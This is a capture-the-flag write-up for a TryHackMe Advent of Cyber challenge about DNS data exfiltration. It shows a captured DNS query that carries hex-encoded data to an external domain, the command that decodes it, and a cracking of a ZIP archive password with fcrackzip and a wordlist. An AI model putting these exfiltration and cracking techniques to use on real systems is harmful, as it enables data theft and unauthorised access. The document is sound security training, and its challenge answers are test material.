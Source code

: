 `ada lovelace`

## [Day 6] Data Elf-iltration

"McElferson! McElferson! Come quickly!" yelled Elf-ministrator.

"What is it Elf-ministrator?" McElferson replies.

"Data has been stolen off of our servers!" Elf-ministrator says!

"What was stolen?" She replied.

"I... I'm not sure... They hid it very well, all I know is something is missing" they replied.

"I know just who to call" said McElferson...

Check out the supporting material [here](https://docs.google.com/document/d/17vU134ZfKiiE-DgiynrO0MySo4_VCGCpw2YJV_Kp3Pk/edit?usp=sharing).

Challenge and supporting material created by [Sq00ky](https://twitter.com/MrS1n1st3r).

1. What data was exfiltrated via DNS?

`12	1.794784	192.168.1.107	1.1.1.1	DNS	135	Standard query 0xaafe A 43616e64792043616e652053657269616c204e756d6265722038343931.holidaythief.com`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ echo 43616e64792043616e652053657269616c204e756d6265722038343931 | xxd -r -p
Candy Cane Serial Number 8491
```

`Candy Cane Serial Number 8491`

2. What did Little Timmy want to be for Christmas?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ fcrackzip -vbDp /usr/share/wordlists/rockyou.txt christmaslists.zip 
found file 'christmaslistdan.tx', (size cp/uc     91/    79, flags 9, chk 9a34)
found file 'christmaslistdark.txt', (size cp/uc     91/    82, flags 9, chk 9a4d)
found file 'christmaslistskidyandashu.txt', (size cp/uc    108/   116, flags 9, chk 9a74)
found file 'christmaslisttimmy.txt', (size cp/uc    105/   101, flags 9, chk 9a11)
possible pw found: december ()
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ unzip christmaslists.zip 
Archive:  christmaslists.zip
[christmaslists.zip] christmaslistdan.tx password: 
 extracting: christmaslistdan.tx     
  inflating: christmaslistdark.txt   
  inflating: christmaslistskidyandashu.txt  
  inflating: christmaslisttimmy.txt
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat christmaslisttimmy.txt 
Dear Santa,
For Christmas I would like to be a PenTester! Not the Bic kind!
Thank you,
Little Timmy.
```
